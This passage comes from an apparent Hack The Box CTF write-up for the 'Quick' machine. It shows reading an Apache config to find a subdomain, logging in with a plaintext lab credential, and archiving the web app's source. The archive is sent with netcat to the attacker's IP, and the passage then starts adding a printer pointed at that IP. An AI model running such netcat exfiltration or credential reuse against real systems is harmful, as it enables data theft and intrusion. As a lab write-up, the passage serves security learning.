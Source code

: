 So the question is where we gonna use it.

I looked at `apache2` config files we get to know a subdomain.

```
sam@quick:/etc/apache2/sites-available$ cat 000-default.conf 
[VirtualHost *:80](VirtualHost *:80)
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

[/VirtualHost](/VirtualHost)
[VirtualHost *:80](VirtualHost *:80)
	AssignUserId srvadm srvadm
	ServerName printerv2.quick.htb
	DocumentRoot /var/www/printer
[/VirtualHost](/VirtualHost)
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet

```

So I added that in `/etc/hosts` and I logged in with `srvadm@quick.htb : Quick4cc3$$`

![Untitled](/img/htb-quick/Untitled%2013.png)

We logged in to the dashboard.

![Untitled](/img/htb-quick/Untitled%2014.png)

I compress the whole `/var/www/printer` folder and send that via netcat

```php
sam@quick:/tmp$ tar -zcf /tmp/printer.tar.gz /var/www/printer
tar -zcf /tmp/printer.tar.gz /var/www/printer
tar: Removing leading `/' from member names
sam@quick:/tmp$ nc -w 3 10.10.14.9 1234 < printer.tar.gz
nc -w 3 10.10.14.9 1234 < printer.tar.gz

```

On my machine, now I do code analysis on them easily.

```php
root@kali:~/CTF/HTB/Boxes/Quick# nc -l -p 1234 > printer.tar.gz
root@kali:~/CTF/HTB/Boxes/Quick# ls
connectivity.pdf  hash.john  printer.tar.gz  shell00.xsl
root@kali:~/CTF/HTB/Boxes/Quick# tar -xzf printer.tar.gz
```

`/add_printer.php`

![Untitled](/img/htb-quick/Untitled%2015.png)

I created a new printer named `wolf` and gave my machine IP address. 
